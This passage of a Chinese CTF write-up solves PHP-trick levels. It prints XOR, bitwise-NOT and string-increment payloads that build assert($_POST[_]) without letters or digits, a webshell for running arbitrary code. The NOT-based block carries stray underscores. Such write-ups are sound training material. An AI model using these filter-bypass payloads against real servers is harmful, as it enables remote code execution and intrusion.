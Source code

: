 `array_rand(array_flip())`，`array_flip()`是交换数组的键和值，`array_rand()`是随机返回一个数组,多刷新几次就出来了

Level 25 : PHP 特性 - 取反绕过 

上一题的payload，反转完了多刷新几次就得到了get_flag.php

Level 26 : PHP 特性 - 无字母数字的代码执行

两种解法

第一种是异或

```
$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); 
$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); 
$___=$$__;
$_($___[_]);//assert($_POST[_]);
```

或者
```
$_ = "!((%)("^"@[[@[\\";   $__ = "!+/(("^"~{`{|";   $___ = $$__;   $_($___[_]); 
```

第二种是取反

```
$_ = ~"%9e%8c%8c%9a%8d%8b";   //得到assert，此时$_="assert"_

_$__ = ~"%a0%af%b0%ac%ab";   //得到_POST，此时$__="_POST"___

___$___ = $$__;   //$___=$_POST_

_$_($___[_]); 
```

方法三：自增自减

```
<?php
$_=[].'';   //得到"Array"
$___ = $_[$__];   //得到"A"，$__没有定义，默认为False也即0，此时$___="A"
$__ = $___;   //$__="A"
$_ = $___;   //$_="A"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;   //得到"S"，此时$__="S"
$___ .= $__;   //$___="AS"
$___ .= $__;   //$___="ASS"
$__ = $_;   //$__="A"
$__++;$__++;$__++;$__++;   //得到"E"，此时$__="E"
$___ .= $__;   //$___="ASSE"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__;$__++;   //得到"R"，此时$__="R"
$___ .= $__;   //$___="ASSER"
$__++;$__++;   //得到"T"，此时$__="T"
$___ .= $__;   //$___="ASSERT"
$__ = $_;   //$__="A"
$____ = "_";   //$____="_"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;   //得到"P"，此时$__="P"
$____ .= $__;   //$____="_P"
$__ = $_;   //$__="A"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;   //得到"O"，此时$__="O"
$____ .= $__;   //$____="_PO"
$__++;$__++;$__++;$__++;   //得到"S"，此时$__="S"
$____ .= $__;   //$____="_POS"
$__++;   //得到"T"，此时$__="T"
$____ .= $__;   //$____="_POST"
$_ = $$____;   //$_=$_POST
```